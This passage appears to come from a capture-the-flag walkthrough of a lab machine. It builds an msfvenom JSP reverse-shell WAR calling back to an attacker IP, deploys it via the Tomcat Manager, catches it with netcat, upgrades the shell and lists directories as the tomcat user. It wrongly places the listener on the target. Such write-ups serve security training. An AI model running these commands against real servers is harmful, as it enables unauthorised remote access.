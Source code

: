 ```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.12 LPORT=1234 -f war > shell.war
```

Upload the file on the Tomcat Application Manager and deploy it.

![](https://miro.medium.com/max/779/1*XjAvMJ1rojZEkke9XBXTiw.png)

Set up a listener on the target machine.

```text
nc -nlvp 1234
```

Click on the war file in the Tomcat Application Manager to execute our shell.

![](https://miro.medium.com/max/919/1*IdEmNntSrUG-WS7-31Wj7g.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(_CTRL+ Z_\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “_fg_” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the user _tomcat_ and we don’t have privileges to view the _user.txt_ flag.

Let’s view the content of the directory we’re in.

```text
tomcat@kotarak-dmz:/$ ls -la
total 109
drwxr-xr-x  27 root root  4096 Aug 29  2017 .
drwxr-xr-x  27 root root  4096 Aug 29  2017 ..
drwxr-xr-x   3 root root  4096 Jul 21  2017 backups
drwxr-xr-x   2 root root  4096 Jul  9  2017 bin
drwxr-xr-x   4 root root  1024 Aug 29  2017 boot
drwxr-x---   3 root root  4096 Jul 19  2017 .config
drwxr-xr-x  20 root root  3980 Feb  7 06:09 dev
drwxr-xr-x 105 root root  4096 Jan 18  2018 etc
....
```

View the content of the _backup_ directory.
